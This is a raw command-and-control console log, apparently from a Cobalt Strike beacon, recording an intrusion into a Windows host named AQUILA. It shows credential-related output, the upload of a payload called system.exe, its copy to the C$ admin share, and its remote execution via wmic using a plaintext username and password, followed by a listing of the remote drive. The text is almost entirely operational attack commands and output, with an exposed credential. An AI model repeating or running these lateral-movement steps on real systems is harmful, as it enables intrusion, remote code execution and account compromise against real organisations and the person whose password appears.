 ```
  \_ rc4_hmac_old      OK  
  \_ rc4_md4           OK  
  \_ rc4_hmac_nt_exp   OK  
  \_ rc4_hmac_old_exp  OK  
  \_ *Password replace @ 000001E8E1FAFCE8 (32) -> null  
  
  
[+] host called home, sent: 291366 bytes  
[-] Could not start service 1be690b on AQUILA: 225

beacon> cd C:\windows\temp  
[+] host called home, sent: 23 bytes  
beacon> upload /home/userware/system.exe  
[*] Tasked beacon to upload /home/userware/system.exe as system.exe
[+] host called home, sent: 288278 bytes

beacon> shell copy system.exe \\AQUILA\C$\  
[*] Tasked beacon to run: copy system.exe \\AQUILA\C$\  
[+] host called home, sent: 59 bytes  
[+] received output:  
       1 file(s) copied.  
  
  
beacon> run wmic /node:AQUILA /user:sergeev.ma /password:iJEL6TEt process call create "cmd.exe /c c:\system.exe"  
[*] Tasked beacon to run: wmic /node:AQUILA /user:sergeev.ma /password:iJEL6TEt process call create "cmd.exe /c c:\system.exe"  
03/23 22:59:55 UTC [checkin] host called home, sent: 118 bytes  
03/23 22:59:57 UTC [output]  
received output:  
Executing (Win32_Process)->Create()  
Method execution successful.  
Out Parameters:  
instance of __PARAMETERS  
{  
       ProcessId = 7828;  
       ReturnValue = 0;  
};  



beacon> ls \\AQUILA\C$
[*] Tasked beacon to list files in \\AQUILA\C$
[+] host called home, sent: 29 bytes
03/23 23:00:13 UTC [output]
\\AQUILA\C$\*
D       0       11/26/2021 21:43:28     $Recycle.Bin
F       384322  07/16/2016 23:18:08     bootmgr
F       1       07/16/2016 23:18:08     BOOTNXT
D       0       11/13/2020 21:30:11     Distrib
D       0       10/06/2020 22:11:30     Documents and Settings
D       0       06/17/2021 08:08:42     ExchangeCert
D       0       10/28/2020 22:54:15     inetpub
D       0       10/09/2020 08:29:13     LdapAdmin
D       0       10/28/2020 23:06:10     Logs
D       0       10/26/2020 16:12:10     MSOCache
F       4414324736      03/17/2022 21:08:41     pagefile.sys
D       0       10/07/2020 03:26:41     PerfLogs
D       0       09/01/2021 22:03:05     Program Files
D       0       10/28/2020 23:08:00     Program Files (x86)
D       0       03/24/2022 06:25:40     ProgramData
D       0       10/06/2020 22:11:32     Recovery
D       0       10/07/2020 03:48:23     System Volume Information
```